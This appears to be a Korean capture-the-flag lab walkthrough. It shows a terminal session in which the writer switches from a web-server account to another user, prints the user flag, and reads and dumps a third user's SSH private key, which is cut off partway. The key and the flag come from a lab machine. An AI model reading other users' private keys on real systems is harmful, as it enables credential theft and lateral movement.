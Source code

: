 ## SSH가 안 되고 리버스 쉘만 있다면 위에서 소개한 TTY 업그레이드를 반드시 적용해야 합니다.

www-data@ip-10-10-97-230:/var/www/wordpress/wp-admin$ su diego
Password:
diego@ip-10-10-97-230:/var/www/wordpress/wp-admin$ id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
diego@ip-10-10-97-230:/var/www/wordpress/wp-admin$

diego@ip-10-10-97-230:/home$ cd diego/
diego@ip-10-10-97-230:~$ ls
user.txt
diego@ip-10-10-97-230:~$ cat user.txt
45edaec653ff9ee06236b7ce72b86963
diego@ip-10-10-97-230:~$

diego@ip-10-10-97-230:~$ ls ../gege
wordpress.old.zip
diego@ip-10-10-97-230:~$ ls ../ssm-user/
diego@ip-10-10-97-230:~$ ls -al ../ssm-user/
total 20
drwxr-xr-x 2 ssm-user ssm-user 4096 Jul 20 11:11 .
drwxr-xr-x 8 root root 4096 Jul 26 05:28 ..
-rw-r--r-- 1 ssm-user ssm-user 220 Jan 12 2024 .bash_logout
-rw-r--r-- 1 ssm-user ssm-user 3771 Jan 12 2024 .bashrc
-rw-r--r-- 1 ssm-user ssm-user 807 Jan 12 2024 .profile
diego@ip-10-10-97-230:~$ ls -al ../think/
total 32
drwxr-x--- 5 think internal 4096 Jan 12 2024 .
drwxr-xr-x 8 root root 4096 Jul 26 05:28 ..
lrwxrwxrwx 1 root root 9 Jun 21 2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think 220 Jun 2 2023 .bash_logout
-rw-r--r-- 1 think think 3771 Jun 2 2023 .bashrc
drwx------ 2 think think 4096 Jan 12 2024 .cache
drwx------ 3 think think 4096 Aug 18 2023 .gnupg
-rw-r--r-- 1 think think 807 Jun 2 2023 .profile
drwxr-xr-x 2 think think 4096 Jun 21 2023 .ssh
lrwxrwxrwx 1 root root 9 Aug 18 2023 .viminfo -> /dev/null
diego@ip-10-10-97-230:~$ cd ../think
diego@ip-10-10-97-230:/home/think$ ls
diego@ip-10-10-97-230:/home/think$ cd .ssh
diego@ip-10-10-97-230:/home/think/.ssh$ ls
authorized_keys id_rsa id_rsa.pub
diego@ip-10-10-97-230:/home/think/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxGtoQjY5NUymuD+3b0xzEYIhdBbsnicrrnvkMjOgdbp8xYKrfOgM
ehrkrEXjcqmrFvZzp0hnVnbaCyUV8vDrywsrEivK7d5IDefssH/RqRinOY3FEYE+ekzKoH
+S6+jNEKedMH7DamLsXxsAG5b/Avm+FpWmvN1yS5sTeCeYU0wsHMP+cfM1cYcDkDU6HmiC
A2G4D5+uPluSH13TS12JpFyU3EjHQvV6evERecriHSfV0PxMrrwJEyOwSPYA2c7RlYh+tb
bniQRVAGE0Jato7kqAJOKZIuXHEIKhBnFOIt5J5sp6l/QfXxZYRMBaiuyNttOY1byNwj6/
EEyQe1YM5chhtmJm/RWog8U6DZf8BgB2KoVN7k11VG74+cmFMbGP6xn1mQG6i2u3H6WcY1
LAc0J1bhypGsPPcE06934s9jrKiN9Xk9BG7HCnDhY2A6bC6biE4UqfU3ikNQZMXwCvF8vY
HD4zdOgaUM8Pqi90WCGEcGPtTfW/dPe4+XoqZmcVAAAFiK47j+auO4/mAAAAB3NzaC1yc2
EAAAGBAMRraEI2OTVMprg/t29McxGCIXQW7J4nK6575DIzoHW6fMWCq3zoDHoa5KxF43Kp
qxb2c6dIZ1Z22gslFfLw68sLKxIryu3eSA3n7LB/0akYpzmNxRGBPnpMyqB/kuvozRCnnT
B+w2pi7F8bABuW/wL5vhaVprzdckubE3gnmFNMLBzD/nHzNXGHA5A1Oh5oggNhuA+frj5b
kh9d00tdiaRclNxIx0L1enrxEXnK4h0n1dD8TK68CRMjsEj2ANnO0ZWIfrW254kEVQBhNC
WraO5KgCTimSLlxxCCoQZxTiLeSebKepf0H18WWETAWorsjbbTmNW8jcI+vxBMkHtWDOXI
YbZiZv0VqIPFOg2X/AYAdiqFTe5NdVRu+PnJhTGxj+sZ9ZkBuotrtx+lnGNSwHNCdW4cqR
rDz3BNOvd+LPY6yojfV5PQRuxwpw4WNgOmwum4hOFKn1N4pDUGTF8ArxfL2Bw+M3ToGlDP
D6ovdFghhHBj7U31v3T3uPl6KmZnFQAAAAMBAAEAAAGBAIxuXnQ4YF6DFw/UPkoM1phF+b
UOTs4kI070tQpPbwG8+0gbTJBZN9J1N9kTfrKULAaW3clUMs3W273sHe074tmgeoLbXJME
wW9vygHG4ReM0MKNYcBKL2kxTg3CKEESiMrHi9MITp7ZazX0D/ep1VlDRWzQQg32Jal4jk
rxxC6J32ARoPHHeQZaCWopJAxpm8rfKsHA4MsknSxf4JmZnrcsmiGExzJQX+lWQbBaJZ/C
